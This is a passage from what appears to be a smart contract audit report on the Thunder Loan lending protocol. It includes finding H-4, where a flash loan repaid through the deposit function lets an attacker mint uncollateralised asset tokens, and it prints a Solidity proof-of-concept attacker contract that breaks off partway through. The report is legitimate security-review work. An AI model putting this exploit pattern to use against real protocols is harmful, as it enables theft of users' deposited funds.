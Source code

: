 ### Tools Used
Manual Review

### Recommended Mitigation
Consider adding logic to you contract for dealing with non-standard ERC20 tokens with less than 18 decimals.

## [H-4] Flash loan can be returned using the `deposit` function, leading to stolen funds

### Relevant GitHub Links
```
- https://github.com/Cyfrin/2023-11-Thunder-Loan/blob/8539c83865eb0d6149e4d70f37a35d9e72ac7404/src/protocol/ThunderLoan.sol#L147-L156

- https://github.com/Cyfrin/2023-11-Thunder-Loan/blob/8539c83865eb0d6149e4d70f37a35d9e72ac7404/src/protocol/ThunderLoan.sol#L180-L217
```

### Description
The function `ThunderLoan::deposit` allows users to deposit funds into the protocol. If a user takes out a flash loan using `ThunderLoan::flashloan` function, they can return the flash loan using the deposit function. In that way they can mint to themselves `AssetToken` tokens without providing any collateral, and later redeem them, which will lead to stolen funds.

### Impact
- Users can steal funds from the protocol by returning flash loans using the deposit function.

### Proof of Concept
- Attacker contract:

```javascript
    contract DepositOverRepay is IFlashLoanReceiver {
        ThunderLoan thunderLoan;
        AssetToken assetToken;
        IERC20 s_token;

        constructor(address _thunderLoan) {
            thunderLoan = ThunderLoan(_thunderLoan);
        }

        function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address, /* initiator */
            bytes calldata /* params */
        )
            external
            returns (bool)
        {
            s_token = IERC20(token);
            assetToken = thunderLoan.getAssetFromToken(IERC20(token));
            IERC20(token).approve(address(thunderLoan), amount + fee);
            thunderLoan.deposit(IERC20(token), amount + fee);

            return true;
        }

        function redeemMoney() public {
            uint256 amount = assetToken.balanceOf(address(this));
            thunderLoan.redeem(s_token, amount);
```